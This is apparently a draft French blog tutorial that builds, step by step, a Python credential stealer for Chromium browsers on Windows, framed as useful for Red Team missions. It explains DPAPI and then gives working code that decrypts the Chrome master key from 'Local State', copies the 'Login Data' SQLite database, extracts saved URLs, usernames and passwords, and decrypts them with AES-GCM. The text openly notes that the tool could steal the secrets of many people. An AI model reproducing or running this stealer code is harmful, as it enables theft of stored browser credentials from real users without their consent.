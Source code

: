 ```yaml
---
title: "fessedssq"
description: "fdsdf"
createdAt: 04-29-2025
author: "sdf"
draft: true
tags:
  - sdf
---
```



## `TL;DR`
Nous utiliserons la DPAPI pour déchiffrer les secrets des navigateurs basés sur Chromium sur les systèmes Windows. Vous pourrez retrouver un script un peu plus peaufiné et écrit en Rust [ici](https://github.com/Fastiraz/chromium-based-browsers-secrets-dump).

## Qu'est-ce que la DPAPI ?
La DPAPI (Data Protection API) est un mécanisme de sécurité utilisé dans les systèmes
Windows pour la gestion des secrets. Elle permet la gestion et la protection des informations sensibles telles que les identifiants d'utilisateur, les mots de passe ou les clés de chiffrement.

## Fonctionnement de la DPAPI
Les deux fonctions principalement utilisées sont :

- `CryptProtectData()`:
	Permet aux applications de Windows de sécuriser des informations comme des mots de passe, des clés de chiffrement, ou d'autres données privées.
- `CryptUnprotectdData()`:
	Permet de déchiffrer des données précédemment protégées par `CryptProtectData()`.

## Un blob, c'est quoi ?
Les deux fonctions précédentes prennent en paramètre des data blob. Un Data Blob sous Windows est un type de champ de données qui permet de stocker des quantités massives de données non structurées de façon optimisée.

## Pourquoi la DPAPI ?
La DPAPI permet de chiffrer les secrets des navigateurs basés sur Chromium et sur les systèmes Windows. Aujourd'hui, la plupart des navigateurs sont basés sur Chromium. Google Chrome, Opera, Brave (le GOAT), Microsoft Edge, Vivaldi et plein d'autres... Les navigateurs Chromium et les systèmes Windows étant les plus répandus, développer un stealer les ciblant permettrait de voler les secrets d'un grand nombre de personnes, ce qui serait particulièrement efficace pour les missions Red Team.

## Le Stealer
Pour démontrer l'utilisation de la DPAPI pour les secrets des navigateurs Chromium, nous allons développer ensemble un stealer en python.
Voici les quatre principales étapes du script :

1. **Récupérer la clé** : Extraire la clé de chiffrement à partir du fichier `Local State` du navigateur au format JSON. Cette clé est utilisée pour déchiffrer les mots de passe stockés. C'est à ce moment que nous utiliserons la DPAPI, pour déchiffrer la clé et l'utiliser.
2. **Accéder à la base de données SQLite** : Localiser et copier la base de données `Login Data` qui contient les secrets chiffrés.
3. **Extraire le texte chiffré** : Pour chaque entrée dans la base de données, extraire la chaîne de caractères chiffrée qui contient le mot de passe.
4. **Déchiffrer le mot de passe** : Utiliser la clé déchiffrée et l'algorithme AES pour déchiffrer le mot de passe.

### La clé
Les clés étant chiffrées en utilisant un algorithme de chiffrement symétrique, AES, nous allons développer une fonction qui permet de récupérer cette clé pour déchiffrer les secrets. La clé est stockée en base64 dans l'objet `os_crypt` et sous la clé `encrypted_key`. La clé, une fois décodée, possède un suffixe (`DPAPI`) qu'il faut retirer.

```python
CHROME_PATH_LOCAL_STATE = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data\Local State" % (os.environ['USERPROFILE']))

def get_secret_key():
    try:
        with open(CHROME_PATH_LOCAL_STATE, "r", encoding='utf-8') as f:
            local_state = f.read()
            local_state = json.loads(local_state)
        secret_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
        secret_key = secret_key[5:]
        secret_key = win32crypt.CryptUnprotectData(secret_key, None, None, None, 0)[1]
        return secret_key
    except Exception as e:
        print("%s" % str(e))
        print("[ERR] Chrome secretkey cannot be found")
        return None
```

### Extraction des secrets de la base de données SQLite
La prochaine étape est de se connecter à la base de données SQLite et de récupérer les informations souhaitées. La base de données est le fichier `Login Data` que nous copierons dans le fichier `Loginvault.db`.
Pour récupérer les secrets souhaités nous utiliserons la requête suivante:
`SELECT action_url, username_value, password_value FROM logins`

```python
CHROME_PATH = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data"%(os.environ['USERPROFILE']))

def get_db_connection(chrome_path_login_db):
    try:
        shutil.copy2(chrome_path_login_db, "Loginvault.db") 
        return sqlite3.connect("Loginvault.db")
    except Exception as e:
        print("%s"%str(e))
        print("[ERR] Chrome database cannot be found")
        return None

if(secret_key and conn):
	cursor = conn.cursor()
	cursor.execute("SELECT action_url, username_value, password_value FROM logins")
	for index,login in enumerate(cursor.fetchall()):
		url = login[0]
		username = login[1]
		ciphertext = login[2]
		decrypted_password = decrypt_password(ciphertext, secret_key)
```

### Déchiffrer les secrets
Une fois le mot de passe chiffré récupéré, nous allons le déchiffrer en utilisant l'algorithme AES. Pour ça, nous utiliserons la fonction `decrypt_password` prenant en paramètre le mot de passe chiffré (`ciphertext`) et la clé (`secret_key`) nécessaire pour le déchiffrement. On commence par extraire le vecteur d'initialisation (`initialisation_vector`) et le mot de passe chiffré (`encrypted_password`) à partir du texte chiffré. Le vecteur d'initialisation est obligatoire pour le mode GCM. La fonction `generate_cipher` avec la clé et le vecteur d'initialisation en paramètre, permet de créer un nouvel objet de chiffrement AES configuré en mode GCM. Cet objet est utilisé par la fonction `decrypt_payload` pour déchiffrer le mot de passe.

```python
def decrypt_payload(cipher, payload):
    return cipher.decrypt(payload)

def generate_cipher(aes_key, iv):
    return AES.new(aes_key, AES.MODE_GCM, iv)

def decrypt_password(ciphertext, secret_key) -> str:
    try:
        initialisation_vector = ciphertext[3:15]
        encrypted_password = ciphertext[15:-16]
        cipher = generate_cipher(secret_key, initialisation_vector)
        decrypted_pass = decrypt_payload(cipher, encrypted_password)
        decrypted_pass = decrypted_pass.decode()  
        return decrypted_pass
    except Exception as e:
        print("%s"%str(e))
        print("[ERR] Unable to decrypt, Chrome version <80 not supported. Please check.")
        return ""
```
